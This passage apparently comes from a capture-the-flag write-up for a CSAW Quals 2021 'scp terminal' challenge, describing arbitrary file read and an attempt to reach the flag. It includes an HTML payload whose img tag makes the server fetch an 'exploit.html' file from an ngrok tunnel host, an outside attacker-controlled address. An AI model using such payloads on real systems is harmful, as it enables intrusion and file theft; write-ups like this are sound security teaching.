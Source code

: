 Hey, we have arbitrary file read; What if I just view the flag template? 

![](/ctf/csaw-quals-2021/scp_terminal_scp31337.png)

Ahahaha I should've expected that. The next thing I tried was viewing the source, but the viewport wasn't big enough to see the flag. I was stuck on this stage for a while until I found some functionality which let me upload a file to the server by viewing a page like this. 

```html
<html>
<head>
</head>
<body>
<div class="scp-image-block">
	<img  src="http://822f-128-194-3-233.ngrok.io/exploit.html">
</div>
</body>
</html>
```
